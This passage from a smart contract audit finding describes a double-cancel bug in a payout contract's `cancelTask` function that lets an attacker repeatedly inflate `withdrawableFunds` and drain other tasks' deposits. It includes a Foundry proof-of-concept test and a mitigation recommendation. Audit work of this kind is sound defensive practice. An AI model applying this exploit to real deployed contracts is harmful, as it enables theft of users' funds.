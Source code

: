 ```
			}
		}
```

As there is no check in the function to ensure the task isn't already canceled, the attacker is able to call `cancelTask` multiple times, each time adding the `amount` they initially funded the task with to their `withdrawableFunds`. This can be done multiple times until the `withdrawableFunds` for the attacker becomes greater than what the task was funded with. At that point the attacker becomes able to withdraw assets intended for other tasks, leading to protocol wide losses. 

This can be done for *any task*, regardless if it has been finalized or not.

The below PoC confirms the attacker is able to inflate their `withdrawableFunds` using this method. 

This can be run using the provided test repo with the following command:
`forge test --match-test testCancelTaskMultipleCalls`

```
    function testCancelTaskMultipleCalls(string memory location, address reviewer) public {
        vm.assume(reviewer != address(0) && reviewer != address(this));
        uint256 taskIndex = payout.currentTaskIndex();
        
        testCreateTask(location, reviewer, 10);
        deal(address(10), 10 ether);
        vm.startPrank(address(10));
        payout.fundTask{value: 10 ether}(taskIndex, 10 ether, address(0));
        vm.stopPrank();

        skip(payout.unlockPeriod());

        vm.prank(reviewer);
        payout.cancelTask(taskIndex);

        vm.prank(address(10));
        uint256 withdrawableBalanceAfterFirstCancel = payout.getWithdrawableBalance(address(0));


        vm.prank(reviewer);
        payout.cancelTask(taskIndex);

        vm.prank(address(10));
        uint256 withdrawableBalanceAfterSecondCancel = payout.getWithdrawableBalance(address(0));

        assert(withdrawableBalanceAfterFirstCancel < withdrawableBalanceAfterSecondCancel);
    }
```

#### Recommended Mitigation  
Implement checks for a task's state before being able to set it to cancel.

#### Comment  

*Confirmed*  
